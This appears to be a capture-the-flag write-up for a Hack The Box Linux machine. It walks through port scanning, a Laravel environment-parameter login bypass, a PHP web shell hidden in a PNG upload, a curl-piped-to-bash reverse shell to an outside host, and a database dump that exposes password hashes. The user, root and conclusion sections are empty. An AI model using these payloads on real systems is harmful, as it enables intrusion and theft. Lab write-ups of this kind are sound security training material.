 ```yaml
---
name: Environment
difficulty: medium
os: linux
platform: htb
date: 9999
releasedDate: 2099-12-31
userFlag: false
rootFlag: false

img: image_url
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.67 -o allPorts
```

```
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 63
80/tcp   open  http     syn-ack ttl 63
8000/tcp open  http-alt syn-ack ttl 63
```

We will add `environment.htb` to our `/etc/hosts` file for easier access:

```bash
echo "10.10.11.67 environment.htb" | sudo tee -a /etc/hosts
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80,8000 -sCV environment.htb -o targeted
```

```
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp   open  http      nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Save the Environment | environment.htb
8000/tcp open  http-alt?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We do a directory scan with `gobuster` to find hidden directories and files on the web server:

```bash
gobuster dir -u http://environment.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t200
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://environment.htb
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 2391]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/upload               (Status: 405) [Size: 244852]
/up                   (Status: 200) [Size: 2125]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
/build                (Status: 301) [Size: 169] [--> http://environment.htb/build/]
/mailing              (Status: 405) [Size: 244854]
```

We can force an error on `/login` page and see backend source code. We send a POST `/login` request with an invalid `remember`field:

```bash
POST /login HTTP/1.1
Host: environment.htb
...
email=test%40test.com&password=test&remember=nonboolean
```

This will return a 500 Internal Server Error, which reveals the backend source code:

```php
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
    $request->session()->regenerate();
    $request->session()->put('user_id', 1);
    return redirect('/management/dashboard');
}
```

We can see that environment called `preprod` logs in as user with ID 1 without needing a password. We can use this to our advantage.

```bash
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
...
email=test%40test.com&password=test&remember=nonboolean
```

Now we are logged in as user `hish`. We get redirected to `/management/dashboard`.
We can change our profile picture, maybe we can upload php code and execute it later.

```
POST /upload HTTP/1.1
Host: environment.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://environment.htb/management/profile
Content-Type: multipart/form-data; boundary=---------------------------26383360799661928062804695699
Origin: http://environment.htb
Content-Length: 224966
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6Ik5xU2NlYUxmQjBDSlA4WDBjOXpqTkE9PSIsInZhbHVlIjoiLy9lREh5RmdYTDVHaUE2QSt2S2tqdGxucW1MbFJod0thMWloakkzWHlOM0p0UG9ZdUJ4WUNLN1NaVDRHZTNuUlRWRzdMZGFlTkRCLzMzSWd3azhCNElQQ0tTNGN6eitBckpYK20yNFBrbWxoMExhYVplaFZiSUFVem9iY2s5VWgiLCJtYWMiOiI4MjAxYzQ3ZDAxNmEzYjIwNjc1MTkxNjA0MzVmOTY2ZmUwNGU4YjdhZDYzOGNkOGMyOGFkNGVjZjI0ZWVkNTQ5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImMycUZEUFA1NGJNSnJuSkJBUnJlZlE9PSIsInZhbHVlIjoiRkVKQ0J2YTI1bVRRdHo2Zlp2aW9iS2xIUHkyZ2dBN0taMkkwRjZxalRTd0VNQXdVeXZTWDA4dGNtanZpV1RhM3RLWnQwS09wTVB1N3QraE93cW1TRVkzcFZ6NFladEw2MTM4L3dpTk03WVhQZmRBdDJVbGZMSzVraVRESjcrQWQiLCJtYWMiOiIwZmFmMzgxYWE1ZDFiMjJmMjBjZWZiNzAxMzBiMzM0ZDg2MTUzYmIzMWFhMGFmYzQ0ZWViMjNmNTFlNTAxYTc0IiwidGFnIjoiIn0%3D

-----------------------------26383360799661928062804695699
Content-Disposition: form-data; name="_token"

H47WDGCWzq0vOaVzUbuB04tNqNDfl4TF2ZGhXgA5
-----------------------------26383360799661928062804695699
Content-Disposition: form-data; name="upload"; filename="png3.php."
Content-Type: image/png

PNG
...image data...

<?php system($_GET['cmd']);?>

...image data...
-----------------------------26383360799661928062804695699--
```

Now we can acces the uploaded file at `http://environment.htb/storage/png3.php` and execute commands using the `cmd` parameter:

```bash
curl "http://environment.htb/storage/files/png3.php?cmd=whoami"
```

...image data...
www-data
...image data...

````

We can get a reverse shell using the following commands:
In our local machine:
```bash
echo "bash -i >& /dev/tcp/10.10.14.216/443 0>&1" > reverse
python3 -m http.server 80
nc -lvnp 443
````

We run the following request to the target machine:

```
GET /storage/files/png3.php?cmd=curl+10.10.14.216/reverse|bash HTTP/1.1
Host: environment.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6IlRmdHIrait2ZGlucXNvNENjejBzbnc9PSIsInZhbHVlIjoicTIyY2VqQ1V0aVFzbHM0aU5mWEdGZFNiV0lxNXgwMS9zT1Bab3BuSElJY204Mlp1OWhHTkhpRHFPb0pxYnNMR2pOQXVaQzRrOEFYS24zMmZ6dDgrY3E3eXNoQVYrdWJ5MHBtdmk5Wk1saDF6d3IxNXd5QTVSQW5GemhDZDBUWXgiLCJtYWMiOiJkNTY0NzY2ZDJhZTRhM2YxNmJkZTZlYzEwMTQ4ZDU2ZTczZmQxM2FhYmJhNjYxMmU1MjM1MjE4MzZkYzMwZjI2IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ik5wNE91YkNPS1VDOFRPMGtsOWpvYmc9PSIsInZhbHVlIjoiclFvVkw3YjQxMStmd1RiV3k0cnFzaDZLakdTRGNNTHVDMUU4MXUzbUhmMUZFREtjNWVWUGRFQVkraHJSMUdyWlA4bmJsTkg1V003cmg1ZmF3Qk5SdFpkcnZ2eDRWSlc1cVIyVm9mRk1LWWZMZDdibmh3cXRLenBBZEUvaEhvSk0iLCJtYWMiOiI3ZWRjYzc5MDBkMThiOTdjM2YyZjA1MDliN2IwYzJmNTU4ZjU5NDM1MmU3MWYxMzE2MmY0YmJjNWEzYzhkZTRjIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
```

This will give us a reverse shell as `www-data`. We can get a persistent shell by using the following commands on the reverse shell:

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can check the web app database contents:

```bash
sqlite3 database/database.sqlite .dump
```

```
...
CREATE TABLE IF NOT EXISTS "users" ("id" integer primary key autoincrement not null, "name" varchar not null, "email" varchar not null, "email_verified_at" datetime, "password" varchar not null, "remember_token" varchar, "created_at" datetime, "updated_at" datetime, "profile_picture" varchar);
INSERT INTO users VALUES(1,'Hish','hish@environment.htb',NULL,'$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi',NULL,'2025-01-07 01:51:54','2025-01-12 01:01:48','hish.png');
INSERT INTO users VALUES(2,'Jono','jono@environment.htb',NULL,'$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm',NULL,'2025-01-07 01:52:35','2025-01-07 01:52:35','jono.png');
...
```

## User Exploitation

## Root Exploitation

## Conclusion
